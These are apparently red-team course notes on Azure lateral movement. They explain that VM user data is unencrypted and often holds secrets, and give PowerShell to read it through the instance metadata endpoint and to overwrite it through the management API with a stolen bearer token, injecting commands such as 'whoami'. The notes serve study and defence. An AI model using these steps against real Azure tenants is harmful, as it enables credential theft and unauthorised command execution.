 # Lateral Movement

## Azure VMs 

### User Data

Scripts or any other data that can be inserted on an Azure VM at time of provision or later.

> *Any application on the virtual machine can access the user data from the Azure Instance Metadata Service (IMDS) after provision.*

User data is:
```
– Persistent across reboots
– Can be retrieved and updated without affecting the VM
– Not encrypted and any process on the VM can access the data!
– Should be base64 encoded and cannot be more than 64KB
```



- Despite clear warning in the documentation, a lot of sensitive information can be found in user data.
- Examples are PowerShell scripts for domain join operations, post-provisioning configuration and management, on-boarding agents, scripts used by infrastructure automation tools etc.
- It is also possible to modify user data with permissions **Microsoft.Compute/virtualMachines/write** on the target VM. 

> Any automation or scheduled task reading commands from user data can be abused!

> Modification of user data shows up in VM Activity Logs but doesn't show what change was done.

Retrieve user data:
```powershell
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text"
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```


Modify user data:
```powershell
$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @{
    location = "Germany West Central"
    properties = @{
        userData = "$data"
    }
} | ConvertTo-Json -Depth 4
$headers = @{
    Authorization = "Bearer $accessToken"
}

# Execute Rest API Call:
$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```
